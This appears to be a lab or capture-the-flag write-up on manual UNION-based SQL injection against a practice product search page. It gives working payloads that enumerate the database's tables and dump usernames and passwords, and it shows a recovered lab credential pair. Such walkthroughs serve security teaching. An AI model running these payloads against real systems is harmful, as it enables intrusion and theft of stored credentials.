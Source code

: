 
## **Overview**

We have 2 ways to do this :D

Manually using the **UNION SELECT** query or using `sqlmap`

***
## **Manually**


We are giving a product page with the search functionality

![](https://i.imgur.com/TD2Rqgp.png)



Using this query in the search bar - `senpai' or 1=1#` we got back all the lists of product

![](https://i.imgur.com/UdjhrTL.jpg)


we can then advance our query by using **UNION SELECT**, like we said in the past modules, keep adding `null` till something clicks, this time we needed 4 nulls

```
senpai' union select null,null,null,null#
```


![](https://i.imgur.com/e2H7jSI.png)



We can then attempt to get all tables from this database by using the query as shown below

```
senpai' union select null,null,null,table_name from information_schema.tables#
```


![](https://i.imgur.com/GOQJ3Er.png)


Searching for **injection0x03** gives us a `_users` and `_products` table 
 
![](https://i.imgur.com/mxIbLRO.png)


We can then attempt to dump the content of this table, After much enumeration, i found out the **injection0x03_users** has only two columns which is `username` and password, Using the following queries we can dump them out

```sql
senpai' union select null,null,null,username from injection0x03_users#
```


![](https://i.imgur.com/BKUKrVt.png)



```
senpai' union select null,null,null,password from injection0x03_users#
```



![](https://i.imgur.com/SR50Gtn.png)


So definitely, our Username and password is `takeshi:### onigirigadaisuki`


## **SQLMAP**

